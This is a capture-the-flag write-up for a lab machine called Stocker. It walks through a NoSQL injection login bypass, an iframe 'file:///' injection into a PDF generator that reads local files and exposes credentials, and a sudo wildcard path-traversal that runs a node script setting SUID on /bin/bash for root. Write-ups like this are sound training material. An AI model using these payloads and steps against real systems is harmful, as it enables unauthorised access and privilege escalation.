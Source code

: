 # Stocker

## Gaining Access

Nmap scan:

```bash
$ nmap -p- --min-rate 3000 10.129.98.240 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 00:30 EST
Nmap scan report for stocker.htb (10.129.98.240)
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The domain was `stocker.htb`, and we can add that to the `/etc/hosts` file.

### Subdomain Fuzzing

There was nothing of interest on the website. `gobuster` scans and default enumeration did not really help out a lot.&#x20;

I decided to use `wfuzz` to fuzz the possible subdomains present on the website, and actually found one at `dev.stocker.htb`.

<figure><img src="../../../.gitbook/assets/image (8) (6) (1).png" alt=""><figcaption></figcaption></figure>

Interesting.

### Login Bypass

At the dev site, all we see is one login page:

<figure><img src="../../../.gitbook/assets/image (6) (2) (2).png" alt=""><figcaption></figcaption></figure>

I tested out `sqlmap` or other SQL injections but it didn't work. It seems that we have to bypass this login to carry on with the machine. Proxying the traffic via Burp gave me a clearer picture on the error received when I entered wrong credentials:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3Akg1SjHeFtX5eT0qfyd1SYLx_R3NRwNQ4.1K3jgUazClJr3WYMiGo9H9WoN6Di9M3ZGN4z9qgzMXU
Upgrade-Insecure-Requests: 1

username=test&password=test
```

There was a `connect.sid` endpoint, indicating that this was some type of Express website. Perhaps this was using MongoDB instead of regular SQL. I tested this JSON payload to bypass the login and it worked.

```json
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
```

<figure><img src="../../../.gitbook/assets/image (7) (3) (4).png" alt=""><figcaption></figcaption></figure>

The website was some ordering website where we could place orders for items.

<figure><img src="../../../.gitbook/assets/image (10) (5).png" alt=""><figcaption></figcaption></figure>

### Stock LFI

I added some items and attemted to checkout from the website.

<figure><img src="../../../.gitbook/assets/image (9) (4) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (2) (4).png" alt=""><figcaption></figcaption></figure>

Viewing the purchase order brought us to a PDF page.

<figure><img src="../../../.gitbook/assets/image (4) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

I downloaded the PDF and used `exiftool` on it to find that Skia is used to generate this PDF from Chromium.

```
$ exiftool document.pdf
ExifTool Version Number         : 12.49
File Name                       : document.pdf
Directory                       : .
File Size                       : 38 kB
File Modification Date/Time     : 2023:01:17 04:05:40-05:00
File Access Date/Time           : 2023:01:17 04:05:50-05:00
File Inode Change Date/Time     : 2023:01:17 04:05:40-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Tagged PDF                      : Yes
Creator                         : Chromium
Producer                        : Skia/PDF m108
Create Date                     : 2023:01:17 09:05:09+00:00
Modify Date                     : 2023:01:17 09:05:09+00:00
```

Additionally, this was the request sent when we clicked checkout.

```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 162
Connection: close
Cookie: connect.sid=s%3Akg1SjHeFtX5eT0qfyd1SYLx_R3NRwNQ4.1K3jgUazClJr3WYMiGo9H9WoN6Di9M3ZGN4z9qgzMXU

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

The exploit is obviously to do with some parameter within the request being vulnerable when generating the RCE. I did some research on PDF related exploits, and found that it was possible to inject some HTML frames to cause an LFI.

{% embed url="https://techkranti.com/ssrf-aws-metadata-leakage/" %}

I attempted this exploit using the `file:///` wrapper to read the `/etc/passwd` file and it worked within the `title` header in the JSON data.

```
<iframe src='file:///etc/passwd' width=500px height=1000px ></iframe>
```

<figure><img src="../../../.gitbook/assets/image (5) (4) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (39) (2).png" alt=""><figcaption></figcaption></figure>

We find that the user is called `angoose`. I attempted to read more files such as the private SSH key of the user, but it seems that I either could not read it or it did not exist.

Remembering that this was an Express website, perhaps there was a Javascript file that I could read to find some credentials, particularly those used to access this server in the first place. WIthin  the `/var/www/dev/index.js` file, I managed to find some credentials.

<figure><img src="../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

With this password, we can `ssh` in as `angoose`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo

Checking sudo permissions, we find that `angoose` can use `node` as an administrator. There's also a wildcard in the scripts we can execute, which is never a good thing.

```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Sorry, try again.
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Within that folder, there are some scripts already present.

```
angoose@stocker:/usr/local/scripts$ ls -la
total 32
drwxr-xr-x  3 root root 4096 Dec  6 10:33 .
drwxr-xr-x 11 root root 4096 Dec  6 10:33 ..
-rwxr-x--x  1 root root  245 Dec  6 09:53 creds.js
-rwxr-x--x  1 root root 1625 Dec  6 09:53 findAllOrders.js
-rwxr-x--x  1 root root  793 Dec  6 09:53 findUnshippedOrders.js
drwxr-xr-x  2 root root 4096 Dec  6 10:33 node_modules
-rwxr-x--x  1 root root 1337 Dec  6 09:53 profitThisMonth.js
-rwxr-x--x  1 root root  623 Dec  6 09:53 schema.js
```

I don't have write permissions in this folder. Neither can I read the scripts to find out what they do. However, because there's a wildcard, we can just enter `../../` to execute any script we want.

Here's a basic JS script for RCE using `child_process`.

```javascript
#!/usr/bin/node
require('child_process').exec('chmod u+s /bin/bash')
```

Then, we can simply do this:

```
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../../../home/angoose/evil.js 
angoose@stocker:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
angoose@stocker:~$ /bin/bash -p
bash-5.0# id
uid=1001(angoose) gid=1001(angoose) euid=0(root) groups=1001(angoose)
```

Pwned.&#x20;
